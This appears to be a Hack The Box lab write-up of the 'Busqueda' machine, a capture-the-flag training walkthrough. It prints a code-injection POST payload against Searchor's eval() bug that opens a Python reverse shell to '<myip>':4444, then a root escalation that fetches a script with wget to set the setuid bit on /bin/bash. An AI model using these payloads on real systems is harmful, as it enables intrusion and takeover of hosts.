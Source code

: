 ```yaml
---
title: "Hack The Box - Busqueda [Easy]"
date: 2023-04-09T19:42:27+03:00
draft: true
description: 
---
```


This machine is rather simple, upon scanning it we can see that the website has a generating search query URLs input form. On the bottom of the page, we can see the versions of the used software:

```
Powered by Flask and Searchor 2.4.0

$ whatweb 
Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.1.2 Python/3.10.6], IP[10.10.11.208], JQuery[3.2.1], Python[3.10.6], Script, Title[Searcher], Werkzeug[2.1.2]
```

A simple google search would yield a bug that has been removed in Searchor 2.4.2+ and before that `eval()` was used in the Searchor CLI module. Assuming that the website uses that, we can send the following payload:

```
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Accuweather&query=',copy_url=__import__('os').system(""" python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<myip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' """))
```

This would create a reverse shell to the machine. 

The currently used user is `svc` upon running 

```
$ sudo -l
```

 We can see that we can use this command:
 
```
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

I also discovered the `/opt/scripts` folder that had some scripts inside, including `full-checkup.sh`, I've run the command in the `/opt/scripts/` folder, and it successfully retrieved some information about the currently running services, I tried to run it in a different folder, and it gave me `Something went wrong`, I've created a dummy `full-checkup.sh` with `chmod +s /bin/bash` contents inside and ran the command again, it just printed out `[+] Done` and after that a simple `bash -p` gave me root user. 

```
$ cd /tmp && wget http://<ip>:8000/full-checkup.sh && chmod +x ./full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
$ bash -p
$ cat /root/root.txt
```